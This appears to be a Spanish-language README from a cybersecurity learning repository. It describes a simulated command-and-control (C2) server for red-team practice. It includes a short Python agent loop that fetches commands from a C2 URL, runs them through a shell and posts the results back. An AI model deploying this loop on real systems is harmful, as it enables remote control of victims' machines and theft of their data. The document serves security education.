

# Custom C2 Simulator

<span style="background-color: #2ea44f; color: white; padding: 4px 8px; border-radius: 4px; font-weight: bold;">Nivel Avanzado</span>

## 📝 Descripción
Simulador de servidor de Comando y Control con registro de agentes, encolado de tareas y exfiltración.

## 🛠️ Arquitectura y Flujo de Datos


## 🧠 Explicación Técnica y Conceptos Clave
Un servidor de Comando y Control (C2) es el pilar de las operaciones del Red Team. Permite controlar sistemas remotos mediante agentes instalados en los hosts. Este proyecto simula la comunicación C2 a través de peticiones HTTP en las que el agente periódicamente comprueba (polling) si hay tareas pendientes y exfiltra resultados cifrados.

## 💻 Código de Ejemplo o Estructura Lógica
```python
# Simplificación del bucle de polling del agente C2
import requests
import time
import subprocess

def agent_loop(c2_url):
    while True:
        task = requests.get(f"{c2_url}/tasks").json()
        if task:
            cmd = task['cmd']
            output = subprocess.check_output(cmd, shell=True)
            requests.post(f"{c2_url}/results", data={"output": output})
        time.sleep(10)
```

## 🔗 Código Fuente y Acceso en GitHub
Puedes ver la implementación completa del código y probar este script directamente accediendo a su carpeta de proyecto:
[Ver código en GitHub](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/nivel_avanzado/01_custom_c2_simulator)
